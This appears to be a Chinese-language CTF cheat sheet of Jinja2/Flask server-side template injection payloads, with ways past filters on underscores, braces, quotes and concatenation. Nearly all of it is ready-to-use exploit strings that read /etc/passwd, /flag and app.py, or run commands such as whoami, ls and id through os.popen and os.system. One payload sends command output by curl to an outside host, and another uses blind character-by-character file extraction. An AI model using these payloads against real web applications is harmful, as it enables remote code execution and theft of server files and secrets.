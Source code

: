 #### 3.过滤下划线_
```
利用request.args属性
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
将其中的request.args改为request.values则利用post的方式进行传参
```
#### 4.过滤花括号{
使用{% if ... %}1{% endif %}，例如

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://http.bin.buuoj.cn/1inhq4f1 -d `ls / |  grep flag`;') %}1{% endif %}

#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}

如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}1{% endif %}
```
#### 5.引号内十六进制绕过
```
{{"".__class__}} 
{{""["\x5f\x5fclass\x5f\x5f"]}}
```
#### 6." ’ chr等被过滤，无法引入字符串
直接拼接键名
```
dict(buil=aa,tins=dd)|join()
```
利用string、pop、list、slice、first等过滤器从已有变量里面直接找
```
(app.__doc__|list()).pop(102)|string()
```
构造出%和c后，用格式化字符串代替chr
```
{%set udl=dict(a=pc,c=c).values()|join %}      # uld=%c
{%set i1=dict(a=i1,c=udl%(99)).values()|join %}
```
#### 7.+等被过滤，无法拼接字符串
~
在jinja中可以拼接字符串
格式化字符串
同上
#### 8.payload:
python2
```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}  
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")}}
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
python3
```
{{().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__['open']('/flag').read()}} 
```